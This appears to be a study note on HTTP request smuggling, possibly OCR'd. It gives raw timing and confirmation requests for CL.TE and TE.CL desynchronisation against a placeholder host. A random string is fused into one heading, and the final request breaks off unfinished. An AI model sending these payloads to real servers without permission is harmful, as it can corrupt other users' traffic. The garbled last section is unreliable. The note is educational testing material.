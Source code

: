 ### **Timing techniques**

If an application is vulnerable to the request smuggling, then sending a request like the following will often cause a time delay

- CL.TE

    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    A
    X
    ```
- TE.CL

    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6

    0

    X
    ```

### **Comfirming vulnerabilities**

- CL.TE

    ```
    POST /search HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Transfer-Encoding: chunked

    e
    q=smuggling&x=
    0

    GET /404 HTTP/1.1
    Foo: x
    ```

- TE.CLVXWbnvUGsVtZlAYPbyadue5eMuHUsCGb

    ```
    POST /search HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked
